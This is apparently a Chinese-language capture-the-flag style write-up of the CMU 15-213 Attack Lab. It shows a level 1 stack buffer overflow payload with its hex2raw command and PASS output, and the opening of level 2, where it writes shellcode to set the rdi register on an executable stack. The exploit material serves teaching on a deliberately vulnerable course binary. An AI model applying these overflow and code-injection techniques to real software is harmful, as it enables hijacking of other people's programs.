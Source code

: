 看看 getbuf 的汇编代码，与 touch1 知道输入数据起始地址距离栈上的返回地址有 0x28 个字节 所以我们先在栈上填充 0x28 个字节再填充 touch1 的返回地址即可

expolit.txt 文件内容如下

```
❯ cat expolit.txt
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 c0 17 40 00
```


使用命令

```
❯ cat expolit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 C0 17 40 00
```

**pahse1 pass**

## level2

>Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

该 phase 要求我们劫持返回地址到 touch2 并且 通过 cookie 的验证，对应的 cookie 数值在我们下载的文件 `cookie.txt` 中，验证的方式是将传入函数的参数(储存在 rdi 寄存器中)与 cookie 比较。

依照所给 writeup 中所给的 Appendix B 方法我们可以使用 gcc 和 objdump 获取汇编代码对应产生的字节序列

通过阅读函数 `stable_launch` 代码我们知道 该程序映射了一片新内存区域 `0x55586000 - 0x55686000` 上，权限为可读可写可执行，且后面将其作为栈上的内存使用

所以我们输入该程序的数据是处在一段可执行内存区域，可以将 shellcode 写入该内存区域，并且劫持控制流到对应地址，实现 rdi 寄存器的写入

```
❯ cat shellcode.s
movq $0x59b997fa,%rdi
ret

❯ gcc -c shellcode.s

❯ objdump -d shellcode.o

shellcode.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq
```
